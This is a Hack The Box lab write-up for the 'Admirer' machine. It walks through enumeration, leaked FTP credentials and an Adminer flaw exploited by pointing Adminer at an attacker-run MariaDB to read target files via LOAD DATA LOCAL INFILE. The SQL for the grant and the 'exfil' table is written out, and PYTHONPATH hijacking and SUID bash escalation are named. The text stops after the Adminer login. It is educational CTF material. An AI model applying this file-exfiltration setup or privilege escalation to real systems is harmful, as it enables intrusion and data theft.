# Hack The Box - Admirer | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Machines &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.229.101` &nbsp;•&nbsp; **Time taken:** 45 mins
>
> **Author:** Jithin Jelson

---

## Introduction

The box we will be attempting to exploit today is Admirer, which is an easy difficulty Linux box.

---

## Assessment Overview

```mermaid
flowchart LR
    A[Nmap<br/>21 / 22 / 80]:::entry --> B[FTP anonymous<br/>denied]:::ioc
    A --> C[HTTP enum<br/>feroxbuster]:::intel
    C --> D[html5up template<br/>in source]:::intel
    C --> E[robots.txt<br/>/admin-dir]:::intel
    E --> F[ffuf .txt<br/>credentials.txt]:::intel
    D --> G{FTP creds<br/>ftpuser}:::mitre
    F --> G
    G --> H[dump.sql +<br/>html.tar.gz]:::payload
    H --> I[utility-scripts/<br/>adminer.php]:::payload
    I --> J{Adminer<br/>external MySQL}:::mitre
    J --> K[LOAD DATA<br/>LOCAL INFILE]:::payload
    K --> L[Live index.php<br/>waldo password]:::payload
    L --> M[SSH as waldo<br/>user.txt]:::user
    M --> N[sudo -l<br/>SETENV]:::mitre
    N --> O[PYTHONPATH<br/>library hijack]:::payload
    O --> P[SUID /bin/bash<br/>root.txt]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```

---

## What I Learned

- Using Adminer to connect out to my own MySQL so `LOAD DATA LOCAL INFILE` reads files off the target as `www-data`.
- Setting MariaDB to listen on tun0 and granting a user access from the target IP so Adminer can log in from the box.
- Why the `SETENV` tag in sudoers matters, since it lets a user pass `PYTHONPATH` through to a script that would normally have its environment stripped.
- Python library hijacking: dropping a fake `shutil.py` in a controlled directory so a root script imports our code instead of the real module.
- That `/bin/bash` with the SUID bit still needs the `-p` flag to actually keep root privileges when launched.

---

## Recon

We can start off with our Nmap scan to get all ports and run default scripts.



*Figure 1 - Nmap scan showing FTP, SSH, and HTTP open.*

We can see we have a port open on HTTP and an FTP port as well as an SSH.



*Figure 2 - FTP anonymous login attempt denied.*

FTP doesn't seem to have anonymous access so we can check our HTTP port.

When we visit the page we didn't find much through manual enumeration so we can use feroxbuster now.



*Figure 3 - The Admirer homepage, an art showcase gallery.*

We didn't find many interesting things but in the source code we found the following so we went to the corresponding GitHub directory.



*Figure 4 - Feroxbuster output alongside the page source referencing the html5up template.*

From here we can see that our GitHub library and feroxbuster is pretty similar, we tried to see what technologies were on the site and when we tried `index.html` it didn't load but `index.php` gave us our first page, so we can use ffuf to run an extension list as well, however we did not find anything useful.

We then went to `robots.txt` and find the following, it seems the `admin-dir` is our endpoint but we don't have access as it is forbidden, perhaps we can enumerate stuff in there regardless?

And it seems finally we get a hit when we enumerate the txt files.



*Figure 5 - ffuf finds `contacts.txt` under `/admin-dir`, revealing internal email addresses.*



*Figure 6 - `credentials.txt` leaks an FTP account for `ftpuser`.*

---

## Shell as Waldo

Now with FTP credentials we can get the files available.



*Figure 7 - Logged in to FTP as `ftpuser` and downloading `dump.sql` and `html.tar.gz`.*

It seems when we extract the html file we have access to all of the directories.



*Figure 8 - Contents of `html.tar.gz`, including a `utility-scripts/` directory and a hidden `w4ld0s_s3cr3t_d1r/`.*

Upon reading through the utility scripts we find the following.



*Figure 9 - Source of `admin_tasks.php`, which runs `/opt/scripts/admin_tasks.sh` with a numeric `task` argument.*

Perhaps there is a shell already on this for us, however after trying various command injection it seems this wasn't very successful, so we decided to enumerate our new endpoint even further.

When we did this we can see there is a directory called `adminer.php`.



*Figure 10 - Feroxbuster finds `/utility-scripts/adminer.php`, the Adminer login page.*

And we can use the credentials we found earlier here.



*Figure 11 - `db_admin.php` carries a `waldo` password, but Adminer rejects it with "Access denied".*

However this was not successful, perhaps we can try the other credentials too. At this point I was stuck so I reached out for help and tried to understand the exploit by 0xdf write-ups. It seems the vulnerability is that Adminer will happily connect out to any MySQL server we tell it to, so we set up our own MariaDB on Kali and have Adminer log in to that instead. Once connected, we can run `LOAD DATA LOCAL INFILE` which makes Adminer read files off its own box and send them back to our database, giving us local file read as `www-data`. We use this to read the live `index.php` and get the current password for `waldo` (the FTP backup had an old one, which is why those creds kept failing).

First we can change our MariaDB configuration to listen on all interfaces instead of just localhost by changing `127.0.0.1` to `0.0.0.0`.



*Figure 12 - Editing `/etc/mysql/mariadb.conf.d/50-server.cnf` and setting `bind-address = 0.0.0.0`.*

Then we will create a user with root and password.

```sql
GRANT ALL PRIVILEGES ON *.* TO 'root'@'10.129.229.101' IDENTIFIED BY 'pwned123' WITH GRANT OPTION;
FLUSH PRIVILEGES;
```



*Figure 13 - Creating a `root` user restricted to connections from the target IP.*

What this does: creates a user called `root` that can only log in when the connection is coming from `10.129.229.101` (the Admirer box), with password `pwned123`.

Then we create an empty table called `exfil` with one column `data` that holds up to 256 chars per row. When we run the file-read exploit, each line of the stolen file gets dumped into this table as a row, so we can then `SELECT * FROM exfil` to read it back.

```sql
CREATE DATABASE pwn;
USE pwn;
CREATE TABLE exfil (data VARCHAR(256));
```

Now we can log in.



*Figure 14 - Pointing Adminer at our Kali IP `10.10.15.15` with the `root` / `pwned123` credentials and `pwn` database.*

And we are in.

